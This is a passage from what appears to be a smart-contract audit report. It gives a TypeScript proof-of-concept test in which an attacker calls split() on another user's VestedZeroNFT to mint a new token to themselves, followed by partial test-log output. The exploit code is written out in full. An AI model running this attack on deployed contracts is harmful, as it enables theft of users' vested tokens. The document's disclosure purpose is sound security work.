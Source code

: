 ```typescript
    console.log("The address of the owner of the TokenId: ", lastTokenId, await vest.ownerOf(lastTokenId));
    expect(await vest.ownerOf(lastTokenId)).eq(ant.address);
    
    console.log("Get tokenIdToLockDetails of the lastTokenId");
    let tokenIdToLockDetails = await vest.tokenIdToLockDetails(lastTokenId);
    console.log("tokenIdToLockDetails: ", tokenIdToLockDetails); 
    
    /*-------------------------------------*/

    console.log("Execute the attack to steal the amount of pending of the VestedZeroNFT to mint a new tokenID for the attacker");
    const [attacker] = await hre.ethers.getSigners();
    console.log("Attacker address: ", attacker.address);

    console.log("Call split to theft the tokenID of Ant");
    console.log("LastTokenId: ", lastTokenId);
   
    await vest.connect(attacker).split(2,1) ;

    tokenIdToLockDetails = await vest.tokenIdToLockDetails(lastTokenId);
    expect(await vest.ownerOf(2)).eq(ant.address);

    console.log("tokenIdToLockDetails: ", tokenIdToLockDetails); 

    lastTokenId = await vest.lastTokenId();
    console.log("The owner address of the lastTokenId: ", await vest.ownerOf(lastTokenId));
    expect(await vest.ownerOf(lastTokenId)).eq(attacker.address);

    console.log("Get tokenIdToLockDetails of the lastTokenId");
    tokenIdToLockDetails = await vest.tokenIdToLockDetails(lastTokenId);
    console.log("tokenIdToLockDetails: ", tokenIdToLockDetails); 

  });
```

In the above POC, to execute the attack, the hacker call the split function 


```typescript
await vest.connect(attacker).split(2,1) ;
```



Test log:  
Full Test Log:  https://drive.google.com/file/d/1uQI10CD-J9HB4KweMPAlMUj19OEzadk0/view?usp=sharing

```
Create the pre-condition setup for attack: User Ant has 1 VestedZeroNFT
The address of the owner of the lastTokenId:  0x9E545E3C0baAB3E08CdfD552C960A1050f373042
The address of StakingBonus contract:  0x9E545E3C0baAB3E08CdfD552C960A1050f373042
Mint a VestedZeroNFT for Ant by calling mint() function of VestedZeroNFT contract
Zero balance of Ant 0n
Zero balance of vestZeroNFT contract 10000000000000000000000n
Ant address:  0x70997970C51812dc3A010C7d01b50e0d17dc79C8
The address of the owner of the TokenId:  2n 0x70997970C51812dc3A010C7d01b50e0d17dc79C8
Get tokenIdToLockDetails of the lastTokenId
tokenIdToLockDetails:  Result(10) [
  0n,
  1710065933n,
  0n,
  10000000000000000000000n,
  0n,
  0n,
  1000n,
  1710064957n,
```